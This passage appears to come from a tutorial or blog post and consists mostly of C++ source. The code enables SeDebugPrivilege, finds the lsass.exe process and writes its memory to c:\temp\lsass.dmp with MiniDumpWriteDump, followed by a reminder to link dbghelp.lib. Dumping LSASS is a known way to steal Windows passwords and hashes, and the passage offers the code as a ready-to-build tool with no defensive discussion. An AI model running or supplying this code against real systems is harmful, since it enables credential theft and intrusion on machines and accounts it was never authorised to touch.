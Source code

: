 ```cpp
  CloseHandle(hSnapshot);
  return pid;
}

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, 
  &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES),
   (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}

// minidump lsass.exe
BOOL createMiniDump() {
  bool dumped = FALSE;
  int pid = findMyProc("lsass.exe");
  HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
  HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, 
  NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (ph && out != INVALID_HANDLE_VALUE) {
    dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, 
    NULL, NULL);
    printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : "failed to dump :(\n");
  } 
  return dumped; 
}

int main(int argc, char* argv[]) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  if (!createMiniDump()) return -1;
  return 0;
}
```

As you can see, do not forget to add `dbghelp.lib` as a dependency:     

```cpp
#pragma comment (lib, "dbghelp.lib")
```
